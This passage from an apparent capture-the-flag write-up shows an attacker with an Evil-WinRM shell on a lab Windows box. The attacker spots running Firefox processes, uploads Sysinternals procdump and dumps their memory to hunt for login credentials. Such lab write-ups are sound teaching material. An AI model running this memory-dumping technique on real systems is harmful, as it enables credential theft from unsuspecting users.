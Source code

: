 This implies that the request will include `login_username` and `login_password` as its data.

I guessed that the issue it says is the one we found from the web service.
So, there might be an web browser process monitoring the issues page.

```powershell
*Evil-WinRM* PS C:\inetpub\wwwroot> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    461      18     2348       5444               408   0 csrss
    290      13     2016       5036               520   1 csrss
    357      15     3468      14292              3872   1 ctfmon
    256      14     3940      13188              3684   0 dllhost
    166       9     1880       9612       0.02   6848   1 dllhost
    614      32    28868      57560              1008   1 dwm
   1491      58    23728      77808              5168   1 explorer
    355      25    16372      38844       0.11   3664   1 firefox
   1075      69   139316     215220       5.42   6512   1 firefox
    347      19    10200      38652       0.08   6636   1 firefox
    401      34    34696      96472       0.67   6760   1 firefox
    378      28    21692      58276       0.38   7020   1 firefox
<SNIP>
```

With `Get-Process` command, I can find that `firefox` process are running.
There might be something useful if I can dump the process.

### Dump firefox process

Let's use `procdump64.exe` which belongs to `Sysinternals Suite`.
I can get the executables from here : https://live.sysinternals.com

```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> upload procdump64.exe
                                        
Info: Uploading /home/kali/htb/procdump64.exe to C:\Users\Chase\Documents\procdump64.exe
                                        
Data: 566472 bytes of 566472 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    355      25    16372      38844       0.11   3664   1 firefox
   1067      70   143644     219660       5.47   6512   1 firefox
    347      19    10200      38652       0.08   6636   1 firefox
    401      34    31696      94120       0.67   6760   1 firefox
    378      28    21720      58304       0.38   7020   1 firefox


*Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process -Name firefox | ForEach-Object { .\procdump64.exe -ma $_.Id -accepteula }

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:42] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001142.dmp
[00:11:42] Dump 1 writing: Estimated dump file size is 298 MB.
[00:11:46] Dump 1 complete: 298 MB written in 3.6 seconds
[00:11:46] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
```